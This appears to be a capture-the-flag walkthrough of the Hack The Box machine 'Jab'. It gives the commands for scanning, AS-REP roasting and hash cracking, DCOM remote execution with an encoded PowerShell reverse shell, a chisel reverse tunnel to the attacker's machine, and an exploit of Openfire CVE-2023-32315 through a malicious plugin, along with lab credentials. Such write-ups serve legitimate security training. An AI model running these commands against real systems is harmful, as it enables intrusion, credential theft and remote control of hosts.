 ```yaml
---
date: 2025-03-08
categories: [CTF, HTB]
title: "HTB - Jab"
tags: ['hashcat', 'impacket', 'kerberos', 'nmap', 'powershell', 'privilege escalation', 'python', 'rce', 'smb']

description: "Jab - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# HTB - Jab

```bash
sudo nmap -sUV -T4 -F --version-intensity 0 10.129.251.236
```

![image1](../resources/bc9d0f4b3fd644d39d0eb7022e3df136.png)

```bash
nmap 10.129.251.236 -p-
```

![image2](../resources/ed0d146929424972a3d7e695515e424a.png)

```bash
nmap 10.129.251.236 -A
```

![image3](../resources/c1ca68037a894afd80691629c2d11085.png)

- Add jab.htb to /etc/hosts

- From the NMAP scan we can see Openfire is running

- Download the Openfire client - Spark


![image4](../resources/b66d2f59fe75416c9efdf16bc4d6a256.png)

- Tick "Login anonymously"
(You can click on the arrow next to Username to get a randomly generated username - if you want to enter chatrooms or send messages)

- Enter the domain name

- Click on Advanced

![image5](../resources/7204fc3cc02842979b7096baebba312c.png)
- Untick Auto Discovery and enter the IP and port of the server

- Disable Encryption:

![image6](../resources/65f522276c594601bbb48afcd69a2861.png)

- Under Certificates tick Accept self-signed

![image7](../resources/c2b060cb0a9c44e1a7fd9d7cccfc6751.png)

- Click Okay and Login

- There isn't much here apart from two conference rooms that we can't join:

![image8](../resources/981a7a0f84b34a7ea13ccbb51e07cb95.png)

- Let's try and enumerate for users - Using the wilcard **\***

![image9](../resources/6e06c97db55e47bf8584d522b7f6a5ff.png)


![image10](../resources/6ac4476769cb40a1a362c5c7520df590.png)

- We get a massive list of Openfire users (on the domain)

- We need to add all these usernames into a list

- The way I found was to screenshot a portion of the Usernames field - paste into Paint
Then use <https://brandfolder.com/workbench/extract-text-from-image> to extract the text and paste into the username list

- ASRepRoasting using the users wordlist we made from the Openfire usernames:
```bash
impacket-GetNPUsers jab.htb/ -users users.txt -no-pass -dc-ip 10.129.251.236

```

![image11](../resources/fc708009ffbb43d09617a115837b099a.png)

- Crack the hash using hashcat:
```bash
hashcat -m 18200 --force -a 0 hash.txt /usr/share/wordlists/rockyou.txt

```

![image12](../resources/e986c444ed9143ccbdfc7ad53b12e92d.png)

- We have credentials:
**jmontgomery : Midnight_121**

- Check the credentials for SMB:
```bash
crackmapexec smb 10.129.251.236 -u "jmontgomery" -p "Midnight_121"

```

![image13](../resources/3f7b988f24334a1c96b9a5ed3acd1484.png)

- Use these credentials to log back into the Openfire Spark client

- Looking at the conference rooms - There's a new conference room that we can join:

![image14](../resources/1c08ead060414f22919ccc2e73f79dc9.png)


![image15](../resources/770e9d55fa504b4d9aac94cbad66f58b.png)

- The penetration testers ran GetUserSPN to get a TGS ticket for a service
- And they found one for svc_openfire

**svc_openfire** : **!@#$%^&*(1qazxsw**
- 
- Looks like no one tested it and the password is still in play:

![image16](../resources/1103fc7caa8c409196f43865a7d0841d.png)

- From the SMB enum we can see that **svc_openfire is part of the DCOM Users group**:

![image17](../resources/d348352371524ecea7d0e25dbda844c4.png)

- Trying to log in through PS, smbexec, psexec, wmiexec or any of those will result in failure - Access Denied


![image18](../resources/da8f51073ada4de588108fb6dd14b181.png)

- But using the DCOM protocol and the svc_openfire credentials:
```bash
impacket-dcomexec -object MMC20 jab.htb/svc_openfire:'!@#\$%^&\*(1qazxsw'@10.129.156.10 'cmd.exe /c powershell -e <BASE64_rev_shell>' -silentcommand

```

![image19](../resources/9e6acc8ebea4486ab3b037039117f962.png)

- We get a shell:

![image20](../resources/df9fe015304c436ea7de23b4dbde636f.png)


![image21](../resources/1a0528b218f5468b83925e16d2b7cc93.png)

- Upload meterpreter rev.exe and run to upgrade to a meterpreter shell:

![image22](../resources/020173ba66024b6289d9625d46d15e6c.png)

<u>Openfire Admin console runs on port 9090</u>

```bash
netstat -ano

```

![image23](../resources/8f6db7431c6d4de889dbee3f940c5d46.png)
- We see the admin console running locally on port 9090

- Upload chisel to the target
  - On Kali:
```bash
chisel server -p 8888 --reverse
```
- On target:
```bash
.\chisel.exe client <kali_ip>:8888 R:socks

```
- On Kali - Enable foxyproxy

![image24](../resources/fccaeebb8b0d405693794a002e6d545d.png)

- Go to <http://localhost:9090> - Log in with svc_openfire credentials

![image25](../resources/8c1418c4d3db4dc39c82adb91cb24183.png)


![image26](../resources/c6914b42cc8a497190df105e93669667.png)

**<u>CVE-2023-32315</u>**

```bash
git clone <https://github.com/miko550/CVE-2023-32315.git>

```
- **If we didn't have a user, do the following:**
```bash
cd CVE-2023-32315
pip3 install -r requirements.txt
python3 CVE-2023-32315.py -t <http://127.0.0.1:9090>

```

![image27](../resources/2c2a1f67a3f54c34882a14b21297f682.png)

- But we can use the svc_openfire user with:
**!@#$%^&*(1qazxsw**

- Go to the Plugins page
- Upload the plugin (openfire-management-tool-plugin.jar ) found in the git repo

![image28](../resources/93af9ee681b6489ba11b1de087e1841e.png)


![image29](../resources/35f401a8e6ac4c5a95c0c0ee79efaf84.png)
- Successfully uploaded and the password is 123
- Go to Server -\> Server Settings -\> Management Tool
(If you take too long, you need to reupload the plugin)


![image30](../resources/067d259d512e405f88f00673f73aee35.png)
- Enter the password 123

- Click on File system

![image31](../resources/8b79f7f37b384e1185a4e4c582f0b6f4.png)

- Go to:
C:/Users/Administrator/Desktop


![image32](../resources/77b24b6ade9a40c5a602853d7a379c58.png)

- Click edit on root.txt

- Got the root flag:

![image33](../resources/193ebab5bb0e4fd18cb1ad86683c7806.png)

- We can also execute system commands to get a shell as SYSTEM:

![image34](../resources/e7fef8d434494ea1afccb4c3b4744c88.png)